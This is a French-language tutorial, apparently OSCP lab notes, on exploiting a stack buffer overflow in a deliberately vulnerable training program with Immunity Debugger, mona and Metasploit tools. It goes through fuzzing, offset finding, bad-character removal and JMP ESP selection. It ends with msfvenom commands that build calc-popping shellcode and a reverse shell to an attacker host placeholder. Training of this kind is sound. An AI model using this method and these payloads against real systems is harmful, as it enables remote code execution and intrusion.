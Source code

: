 ```ad-note
Dans Immuniyy Debugger, on peut retourner à l'affichage principale en cliquant sur l'onglet **Window --> CPU**
Il faut lancer les scripts avec PYTHON3
```


## Mona Configuration
##### Installation de mona
https://github.com/corelan/mona
Mettre mona.py dans le répertoire:
`C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands`

### Mona Configuration
Configuration du working folder :
```
!mona config -set workingfolder c:\mona\%p
```
![image](https://user-images.githubusercontent.com/93264654/206850048-908612fa-1de5-479b-8562-db6bb5a950f2.png)

Cette commande permet de créer un dossier qui sera utilisé par mona pour placer les logs/outputs.

## Lancement du programme dans Immunity

On lance Immunity Debugger en **administrateur** en utilisant l'icone sur le bureau

![image](https://user-images.githubusercontent.com/93264654/206851785-07be9db2-ca19-442d-9fc7-0cbde6e248c0.png)

Une fois sur Immunity, on lance le programme en allant dans :
`File -> Open -> Desktop -> vulnerable-apps -> oscp -> oscp.exe`

![image](https://user-images.githubusercontent.com/93264654/206851817-91bf3925-ac69-4da4-a745-7aad4fe36821.png)

Puis on le démarre en cliquant sur le bouton **play**

![image](https://user-images.githubusercontent.com/93264654/206851828-e119ff91-0c74-43e9-915a-23c1e843ea57.png)



## Lister les commandes

On se connecte à l'application avec `nc -nv IP Port` puis on essaie de voir qu'elle sont les commandes de l'application qui nous permettent d'envoyer des données.

## 1 - Fuzzing

La première étape est de déterminer la commande vulnérable en faisant crash l'application.
Dans le script **fuzzer.py** on modifie l'**IP** et le **Port**, ainsi que le **Prefix**.
On attache et lance l'application dans Immunity puis on exécute le script.
On note l'offset trouvé, dans la capture ci-dessous on voit que l'application crash à 2000 octets, cela signifie que la **Return Address** est située entre **1900** et **2000** octets.

![image](https://user-images.githubusercontent.com/93264654/206849473-34be38ee-5209-4b2f-b9c1-78e4db61c0ba.png)

On redemarre l'application

![image](https://user-images.githubusercontent.com/93264654/206851859-3e77a2ff-b5bd-4d56-8466-a2e15bbcb36e.png)

## 2 - Offset

Pour trouver l'**EIP**, On génère un paterne avec metasploit de 400 octets de plus que le crash (le crash était à 2000 octets, donc on génère 2400 caractères) :
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
```

Mettre l'output dans la variable **payload** de **exploit.py** et exécuter le script (ne pas oublier d'abord de restart l'application dans Immunity).

![image](https://user-images.githubusercontent.com/93264654/206849907-e2a0571d-2fbe-4ddd-9c5c-f139a7bb0c4e.png)



Lorsque l'application crash :
- on note la valeur de EIP en faisant **clic droit sur la valeur de l'EIP --> copy selection to Clipboard**

Puis on récupère l'offset de l'EIP avec la commande : 

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <valeur_de_EIP>
```

On peut aussi trouver l'offset EIP et ESP avec la commande : `!mona findmsp -distance 2400`
![image](https://user-images.githubusercontent.com/93264654/206849981-248be463-8efc-4f66-90b7-cf1f644122ce.png)


On note la valeur de l'offset retournée par cette commande dans la variable **offset** du script **exploit.py**.
On éfface le contenu de la variable **payload**.

![image](https://user-images.githubusercontent.com/93264654/206850260-f842aa1c-0da2-4e2a-94f5-003a24eb9422.png)


## 3 - Control the EIP

Cette étape consiste à vérifier si l'offset trouvé est le bon, en écrivant une suite de caractères B dans l'EIP.
On met dans la variable **retn** de **exploit.py** `retn="BBBB"`


On exécute le script.

Dans Immunity si l'EIP contient une suite de caractères B (/x42 en hex), alors l'offset trouvé est le bon.

## 4 - Bad Chars

A présent, nous allons rechercher les mauvais caractères.

On créer dans mona une liste de caractères en excluant directement le null byte x00 qui est bad chars par défaut (Il correspond au caractère ASCII fin de string)

```
!mona bytearray -cpb "\x00"
```
On exécute le script **genere.py** et on colle le  résultat dans la variable **payload** du script **exploit.py**

![image](https://user-images.githubusercontent.com/93264654/206850775-413305a6-92a4-43f6-be2a-133bf842127d.png)

On redémarre le programme dans Immunity puis on exécute **exploit.py**.

Une fois le programme crash, on va regarder les cractères manquant dans la stack afin de déterminer les mauvais cractères. On utilise dans Immunity la commande :

```
!mona compare -a ESP -f C:\mona\oscp\bytearray.bin
```
Cette commande permet de comparer la liste de caractère généré par mona avec les caractères présents dans la stack.

Dans l'exemple, mona nous retourne le cractères hexa \x07. Il nous indique aussi que la caractères \x00 à été omis du résultat (nous l'avons exclus précédemment).

![image](https://user-images.githubusercontent.com/93264654/206851003-3b808f4a-66ff-49c8-8998-fdcb981482ed.png)

On note sur un bloc note le cractère \x07.

On régénère avec mona nouveau avec mona un **bytearray** en excluant le bad chars trouvé \x07 :

```
!mona bytearray -cpb "\x00\x07"
```

Puis on supprime dans la variable **payload** du script **exploit.py** le mauvais caractères "\x07"
![image](https://user-images.githubusercontent.com/93264654/206851073-481feb33-94e1-4112-b50f-96181735487e.png)

On repette l'opération jusqu'à ce que mona nous affiche que rien n'est changé.
Si il n'y a plus de badchars, mona doit afficher un statuts **unmodified** et on doit avoir un message dans la console qui dit :  **!!! Hoooray, normal shellcode unmodified !!!**

![image](https://user-images.githubusercontent.com/93264654/206851102-8e59fa84-c637-4d1d-b1f5-0ba6061588dc.png)

### b. Recherche d'un JMP ESP

On demande à mona de trouver une instruction **JMP ESP** qui permet au processeur d'exécuter ce que nous avons mis dans le stack. 

Il faut que l'adresse du JMP ESP ne contienne pas de badchars, on va les exclure lors de la recherche.

On fait crash le programme avec **exploit.py** puis on tape dans Immunity :

```
!mona jmp -r esp -cpb "\x00\x07"
```
Il faut choisir un JMP ESP avec toutes les protections en **False** et qu'il soit de préférence dans une DLL.

Dans notre exemple, on prend le JMP ESP 0x625011c7

![image](https://user-images.githubusercontent.com/93264654/206851283-1ad1a114-7170-4d9a-ad7e-c9ee563bc83c.png)

On rentre l'adresse du JMP ESP dans la variable **retn** du script **exploit.py.
Il faut entrer l'adresse à l'envers car le 32bits utilise du **little endian**.

\x62\x50\x11\xc7 devient : \xc7\x11\x50\x62

![image](https://user-images.githubusercontent.com/93264654/206851449-84d4f656-cc75-4de4-aa6d-ce47c97978cb.png)




## 6 - Pop calc

On va confirmer l'execution de code sur la victime en essayant de lancer une calculatrice. Cela peut être utilisé pour validé le contenu de l'exploit.

On génère un shellcode avec msfvenom qui permet de pop une calculatrice :
```
msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -b "<badchars>" -f c

Dans notre exemple cela donne :
msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -b "\x00\x07" -f c
```

On copie le résultat dans la variable **payload** de **exploit.py** en l'entourant avec des parenthèses.

![image](https://user-images.githubusercontent.com/93264654/206851570-07600e30-f60c-47e8-bba5-36b8e26243bb.png)

On ajoute aussi dans la variable **pading** `"x90" * 16`

![image](https://user-images.githubusercontent.com/93264654/206851582-a08273c2-cee0-4ad8-9c30-c8a3b4e82a5a.png)

On exécute le script, une calculatrice devrait pop sur la machine victime.

## 7 - Reverse Shell

Maintenant, on peut craft n'importe quel shellcode du moment qu'on respecte les bad chars.

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP_KALI> LPORT=4444 EXITFUNC=thread -b "<badchars>" -f c

Dans notre exemple :
msfvenom -p windows/shell_reverse_tcp LHOST=<IP_KALI> LPORT=4444 EXITFUNC=thread -b "\x00\x07" -f c
```

On copie le résultat dans la variable **payload** de **exploit.py** en l'entourant avec des parenthèses.

![image](https://user-images.githubusercontent.com/93264654/206851570-07600e30-f60c-47e8-bba5-36b8e26243bb.png)

Il ne reste plus qu'a exécuter **exploit.py** pour obtenir un reverse shell.
